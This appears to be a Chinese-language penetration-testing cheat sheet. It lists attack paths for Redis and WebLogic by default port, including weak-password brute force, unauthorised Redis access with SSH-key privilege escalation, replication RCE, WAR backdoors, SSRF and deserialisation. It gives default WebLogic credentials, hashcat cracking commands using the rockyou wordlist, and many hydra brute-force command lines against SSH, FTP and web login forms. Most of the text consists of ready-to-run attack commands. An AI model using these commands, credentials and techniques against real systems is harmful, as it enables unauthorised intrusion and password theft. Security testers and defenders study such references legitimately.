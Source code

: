 ### 开源的可基于内存的可持久化的日志型数据库Redis的默认端口6379
1. 爆破弱口令
2. redis未授权访问结合ssh key提权
3. 主从复制rce

### weblogic服务默认端口7001
1. 弱口令、爆破，弱密码一般为weblogic/Oracle@123 or weblogic
2. 管理后台部署 war包后门
3. weblogic SSRF
4. 反序列化漏洞


### 暴力hash碰撞解密
~~~shell
# 查看哈希值是通过什么算法加密的，一般哈希值是这样的 $id$salt$encrypted
man crypt
# 一般id号代表加密方式，常见的如下
#   1   | MD5
#   2a  | Blowfish (not in mainline glibc; added in some Linux distributions)
#   5   | SHA-256 (since glibc 2.7)
#   6   | SHA-512 (since glibc 2.7)

# 搜索查看加密方式类型的编号：Hash types 列表下对应加密算法的编号
man hashcat 

# 暴露字典破解，只要猜测字典数量够多就能破解
hashcat -m [加密算法编号] --force [存放hash值的文件] [字典文件，每行都是可能的密码]
# --show 参数：只查看破解的密码信息
# kali系统中提供的字典 /usr/share/wordlists/rockyou.txt.gz 该字典很大并且猜测的常见密码都在其中，可以使用这个字典进行暴力破解
# 例如  hashcat -m 1800 --force test.hash test.txt 其中的1800就是SHA-512 加密，即哈希值中开头$后面的id是6
~~~

### 暴力破解
~~~shell
# ssh暴力破解 hydra -l root -P passwords.txt -e nsr -o root-passwd-ok.txt -vV 192.168.0.200 ssh 
hydra [参数] [IP] [服务或者协议，例如ssh]
# -l 参数指定用户名，即单个可能的用户名
# -L 参数指定用户的用户名字典，即一组可能的用户名
# -p 参数指定密码，即单个可能的密码
# -P 参数指定密码字典，即一组可能的密码
# -e 参数指定额外的选项，例如 -e nsr 中的 n：空密码试探，s：使用账户名相同的密码进行试探，r：用户名称逆向后的名称也参与破解
# -M 参数指定目标ip列表文件，进行批量破解
# -s 参数指定目标服务的端口，如果不指定是按照服务或者协议的默认端口进行破解
# -o 参数破解成功的用户名和密码输出到指定文件
# -f 参数找到第一对登录名或者密码的时候中止破解
# -t 参数设置运行破解程序的线程数，默认是16
# -w 参数设置最大超时时间，单位
# -vV 参数显示详细过程，小写v越多信息越详细
# -R 恢复爆破（如果破解中断了，下次执行 hydra -R /path/to/hydra.restore 就可以继续任务。）
# -x 自定义密码，例如-x 6:10:1a. 表示枚举的密码由数字、小写字母和单字符’.'等等组成，长度为 6 - 10 位。

# 常见服务和协议的破解方式

#破解ftp
hydra -L 用户名字典 -P 密码字典 -t 6 -e ns IP地址 -v

# http get方式提交，破解web登录：
hydra -L 用户名字典 -P 密码字典 -t 线程 -v -e nsr IP地址 http-get /admin/
hydra -L 用户名字典 -P 密码字典 -t 线程 -v -e nsr -f IP地址 http-get /admin/index.php
 
# http post方式在url后面添加用户密码提交，破解web登录：
hydra -f -l 用户名 -P 密码字典 -V -s 端口号 IP地址 http-post-form "/admin/index.php?action=login:user=USER&pw=PASS:"
~~~